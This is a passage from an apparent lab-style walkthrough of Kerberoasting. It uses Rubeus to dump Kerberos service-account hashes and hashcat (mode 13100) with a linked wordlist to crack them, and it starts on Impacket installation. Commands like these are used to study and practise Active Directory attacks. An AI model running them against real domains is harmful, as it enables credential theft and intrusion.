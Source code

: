 ### Method 1 - Rubeus

#### Kerberoasting w/ Rubeus -

1.) `<span>cd Downloads</span>` - navigate to the directory Rubeus is in

2.) `<span>Rubeus.exe kerberoast</span>` This will dump the **Kerberos** hash of any kerberoastable users

![1728288702020](image/AttackingKerberos/1728288702020.png)

copy the hash onto your attacker machine and put it into a .txt file so we can crack it with hashcat

I have created a modified rockyou wordlist in order to speed up the process download it [here](https://github.com/Cryilllic/Active-Directory-Wordlists/blob/master/Pass.txt)

3.) `<span>hashcat -m 13100 -a 0 hash.txt Pass.txt</span>` - now crack that hash

### Method 2 - Impacket

#### Impacket Installation -

Impacket releases have been unstable since 0.9.20 I suggest getting an installation of Impacket < 0.9.20

1.) `<span>cd /opt</span>` navigate to your preferred directory to save tools in

2.) download the precompiled package from [https://github.com/SecureAuthCorp/impacket/releases/tag/impacket_0_9_19](https://github.com/SecureAuthCorp/impacket/releases/tag/impacket_0_9_19)
